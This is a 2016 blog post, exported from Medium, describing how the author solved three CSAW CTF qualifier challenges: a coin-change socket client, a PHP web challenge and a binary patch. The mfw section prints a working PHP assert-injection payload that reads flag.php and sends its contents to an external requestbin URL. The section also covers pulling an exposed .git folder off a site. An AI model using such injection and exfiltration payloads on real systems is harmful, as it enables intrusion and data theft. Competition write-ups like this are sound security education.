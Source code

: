 ```yaml
---
title: CSAW CTF 2016 Quals
date: 2016-09-18T23:04:12.000Z
tags: [medium-blog]
---
```


<article class="h-entry">
  <section data-field="body" class="e-content">
    <section name="81bc" class="section section--body section--first section--last">
      <div class="section-content">
        <div class="section-inner sectionLayout--insetColumn">
          <p name="3250" id="3250" class="graf graf--p graf-after--h3">Over the weekend, I worked with the team
            Gophers in the Shell on CSAW CTF 2016. We ended up placing 317th place, with 401 points. Here I’m going to
            document the problems that I solved during the competition.</p>
          <h3 name="74cf" id="74cf" class="graf graf--h3 graf-after--p">Coinslot</h3>
          <p name="7bae" id="7bae" class="graf graf--p graf-after--h3">For 25 points, the objective of this problem is
            to output which coins/bills are needed for a given amount of money. When you connect to the server, it
            will give you an amount in the form of $100.00 and then proceed to ask questions like $10,000 bills?. To
            do this, I wrote a Python client to interact with the server.</p>
          <pre name="7d34" id="7d34"
            class="graf graf--pre graf-after--p">import socket<br>s = socket.socket()<br>s.connect((“misc.chal.csaw.io”, 8000))</pre>
          <pre name="8c45" id="8c45"
            class="graf graf--pre graf-after--pre">def recv(end=’\n’):<br>    c, t = ‘’, ‘’<br>    while c != end:<br>    c = s.recv(1)<br>    t += c<br>    return t</pre>
          <p name="79eb" id="79eb" class="graf graf--p graf-after--pre">This code will open a connection to the server
            and read input until a certain character is reached. The algorithm for this problem is rather simple;
            starting from the largest denomination ($10,000 bills), check if the remaining amount is greater than the
            denomination (in other words, if that bill/coin can be used to pay the remaining amount), and then
            subtract the largest multiple of that bill/coin from the remaining amount. In code, that looks like this:
          </p>
          <pre name="8793" id="8793"
            class="graf graf--pre graf-after--p">r = recv()<br>amt = int(r.strip(“$”).strip().replace(“.”, “”))<br>print amt<br>for denom in denoms:<br>    n = amt // denom<br>    s.send(“%d\n” % n)<br>    amt %= denom<br>recv()</pre>
          <p name="2a5d" id="2a5d" class="graf graf--p graf-after--pre">Upon success, the server will then ask another
            amount. I didn’t keep track of how many times it asked, but I wrapped the above code in a <code
              class="markup--code markup--p-code">while True</code> loop and eventually I got the flag.</p>
          <h3 name="bc76" id="bc76" class="graf graf--h3 graf-after--p">mfw</h3>
          <p name="0e1b" id="0e1b" class="graf graf--p graf-after--h3">In this challenge we were presented with a site
            with a navigation bar. On the About page, it tells you that the site was made with Git, PHP, and
            Bootstrap. Upon seeing git, I immediately thought to check if the <code
              class="markup--code markup--p-code">.git</code> folder was actually stored in the www root, and it was!
            I ripped the git folder off the site and cloned it to restore the original folder structure.</p>
          <p name="34a9" id="34a9" class="graf graf--p graf-after--p">There was a <code
              class="markup--code markup--p-code">flag.php</code> in the templates folder, but the actual flag was
            missing. That means I had to retrieve the flag from the actual server.</p>
          <p name="c3f9" id="c3f9" class="graf graf--p graf-after--p">From the way the navigation bar was constructed,
            it looks like I need to use local file inclusion. But I couldn’t use php’s <code
              class="markup--code markup--p-code">base64</code> filter to print the contents of <code
              class="markup--code markup--p-code">flag.php</code> because the <code
              class="markup--code markup--p-code">$file</code> variable will stick ”templates/” to the front of the
            given page before it’s <code class="markup--code markup--p-code">require_once</code>’d.</p>
          <p name="c2bf" id="c2bf" class="graf graf--p graf-after--p">The trick to solving this one is injecting PHP
            commands in the assert statements. I suspect that writing to the filesystem has been blocked. So instead,
            I made a <a href="http://requestb.in" data-href="http://requestb.in"
              class="markup--anchor markup--p-anchor" rel="noopener" target="_blank">requestbin</a> that I would make
            a GET request to, containing the contents of <code class="markup--code markup--p-code">flag.php</code>!
          </p>
          <p name="61df" id="61df" class="graf graf--p graf-after--p">The page I requested was:</p>
          <pre name="8255" id="8255"
            class="graf graf--pre graf-after--p">http://web.chal.csaw.io:8000/?page=flag%27+%2B+fopen%28%27http%3A%2F%2Frequestb.in%2F1l5k31z1%3Fp%3D%27+.+urlencode%28file_get_contents%28%27templates%2Fflag.php%27%29%29%2C+%27r%27%29+%2B+%27</pre>
          <p name="80fb" id="80fb" class="graf graf--p graf-after--pre">Un-URL encoded, this looks like:</p>
          <pre name="4d99" id="4d99"
            class="graf graf--pre graf-after--p">flag’ + fopen(‘http://requestb.in/1l5k31z1?p=&#39; . urlencode(file_get_contents(‘templates/flag.php’)), ‘r’) + ‘</pre>
          <p name="e3c2" id="e3c2" class="graf graf--p graf-after--pre">As you can see, I’m reading the contents of
            <code class="markup--code markup--p-code">flag.php</code>, URL-encoding it, and sending it to this
            requestbin. This way, I can retrieve it from the requestbin later.
          </p>
          <h3 name="1a12" id="1a12" class="graf graf--h3 graf-after--p">Gametime</h3>
          <p name="b5b0" id="b5b0" class="graf graf--p graf-after--h3">I got this close to the end of the competition,
            but it suddenly hit me that if I just invert the condition of (if you hit the right key), then it will
            think you win if you do absolutely nothing. Since they distributed the binary file instead of hosting it
            on a server, this means I could just patch the binary file and re-run it.</p>
          <p name="5875" id="5875" class="graf graf--p graf-after--p">I opened the exe in IDA, and used Alt+T to
            search for <code class="markup--code markup--p-code">UDDER FAILURE</code>, the string it prints when you
            fail. It actually occurs twice in the program, first during the “tutorial” level, and then during the
            actual thing.</p>
          <p name="3165" id="3165" class="graf graf--p graf-after--p">In both instances, right above where it prints
            <code class="markup--code markup--p-code">UDDER FAILURE</code>, there is a <code
              class="markup--code markup--p-code">jnz</code> that checks if the key you pressed was right. More
            specifically, this occurs at <code class="markup--code markup--p-code">004014D5</code> and <code
              class="markup--code markup--p-code">00401554</code>. To invert the condition, I had to change <code
              class="markup--code markup--p-code">jnz</code> to <code class="markup--code markup--p-code">jz</code>.
            In opcodes, that’s <code class="markup--code markup--p-code">75</code> and <code
              class="markup--code markup--p-code">74</code>.
          </p>
          <p name="b409" id="b409" class="graf graf--p graf-after--p graf--trailing">Then I just ran the program
            again, and waited for it to pass all the checks, and I got the flag!</p>
        </div>
      </div>
    </section>
  </section>
  <footer>
    <p>By <a href="https://medium.com/@failedxyz" class="p-author h-card">Michael Zhang</a> on <a
        href="https://medium.com/p/f9c51dffa34"><time class="dt-published"
          datetime="2016-09-18T23:04:12.000Z">September 18, 2016</time></a>.</p>
    <p><a href="https://medium.com/@failedxyz/csaw-ctf-2016-quals-f9c51dffa34" class="p-canonical">Canonical link</a>
    </p>
    <p>Exported from <a href="https://medium.com">Medium</a> on October 8, 2024.</p>
  </footer>
</article>
